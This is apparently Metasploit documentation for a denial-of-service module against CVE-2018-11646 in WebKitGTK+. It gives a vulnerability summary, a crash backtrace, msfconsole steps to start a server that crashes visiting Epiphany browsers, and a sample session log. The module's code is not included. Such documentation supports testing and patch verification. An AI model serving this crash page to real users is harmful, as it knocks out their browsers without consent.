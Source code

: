 ## Vulnerable Application

This module exploits a vulnerability in WebKitFaviconDatabase when pageURL is unset. If successful,it could leads to application crash, denial of service, webkitFaviconDatabaseSetIconForPageURL and webkitFaviconDatabaseSetIconURLForPageURL in UIProcess/API/glib/WebKitFaviconDatabase.cpp in WebKit, as used in WebKitGTK+ through 2.21.3, mishandle an unset pageURL, leading to an application crash. 

Related links : 
https://bugs.webkit.org/show_bug.cgi?id=186164
https://datarift.blogspot.com/2018/06/cve-2018-11646-webkit.html

## Backtrace using Fedora 27

```
#0 WTF::StringImpl::rawHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 508
#1 WTF::StringImpl::hasHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 514
#2 WTF::StringImpl::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 525
#3 WTF::StringHash::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringHash.h line 73
#9 WTF::HashMap, WTF::HashTraits >::get
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/HashMap.h line 406
#10 webkitFaviconDatabaseSetIconURLForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 193
#11 webkitFaviconDatabaseSetIconForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 318
#12 webkitWebViewSetIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitWebView.cpp line 1964
#13 WTF::Function::performCallbackWithReturnValue
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/GenericCallback.h line 108
#15 WebKit::WebPageProxy::dataCallback
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 5083
#16 WebKit::WebPageProxy::finishedLoadingIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 6848
#17 IPC::callMemberFunctionImpl::operator()
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 68
#29 WTF::RunLoop::::_FUN(gpointer)
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 70
#30 g_main_dispatch
at gmain.c line 3148
#31 g_main_context_dispatch
at gmain.c line 3813
#32 g_main_context_iterate
at gmain.c line 3886
#33 g_main_context_iteration
at gmain.c line 3947
#34 g_application_run
at gapplication.c line 2401
#35 main
at ../src/ephy-main.c line 432 

```

## Verification

    Start msfconsole
    use auxiliary/dos/http/webkitplus
    Set SRVHOST
    Set SRVPORT
    Set URIPATH
    run (Server started)
Visit server URL in epiphany web browser which uses webkit. 

## Scenarios

```
msf auxiliary(dos/http/webkitplus) > show options 

Module options (auxiliary/dos/http/webkitplus):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.105    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer


msf auxiliary(dos/http/webkitplus) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(dos/http/webkitplus) > 
[*] Using URL: http://192.168.1.105:8080/
[*] Server started.

msf auxiliary(dos/http/webkitplus) > 
[*] Sending response

msf auxiliary(dos/http/webkitplus) >
```
